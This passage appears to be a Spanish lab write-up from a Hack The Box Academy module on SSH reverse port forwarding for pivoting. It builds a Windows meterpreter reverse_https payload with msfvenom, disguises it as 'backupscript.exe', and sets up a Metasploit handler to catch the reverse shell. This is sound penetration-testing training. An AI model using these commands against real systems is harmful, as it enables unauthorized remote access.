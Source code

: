       ![](/assets/images/HTB/Academy/Pivoting-Tunneling/rdp.png)

---
## Remote/Reverse Port Forwarding with SSH 🔀

1. Nos conectamos al servicio SSH y listamos las interfaces de **red**

   * **Interfaces**

      ```
      ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.202.64  netmask 255.255.0.0  broadcast 10.129.255.255
      <SNIP>

      ens224: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.5.129  netmask 255.255.254.0  broadcast 172.16.5.255   
      <SNIP>
      ```

   * La dirección IP para hacer `pivoting` es 172.16.5.129 ya que aquí se encuentra el host a vulnerar.

2. Listando los hosts activos en la red **172.16.5.0/24** nos encontramos con otro host **172.16.5.19**

   ```
   Listando Hosts Activos...

   [+] 172.16.5.19
   ```

3. Para obtener una **reverse shell** crearemos un **payload** con msfvenom

   * **`msfvenom -p windows/x64/meterpreter/reverse_https lhost=172.16.5.129  -f exe -o backupscript.exe LPORT=8080`**

4. Nos pondremos en escucha de peticiones con **metasploit** 

   ```
   msf6 > use exploit/multi/handler
   msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
   msf6 exploit(multi/handler) > set lhost 0.0.0.0
   msf6 exploit(multi/handler) > set lport 8000
   msf6 exploit(multi/handler) > run
   ```
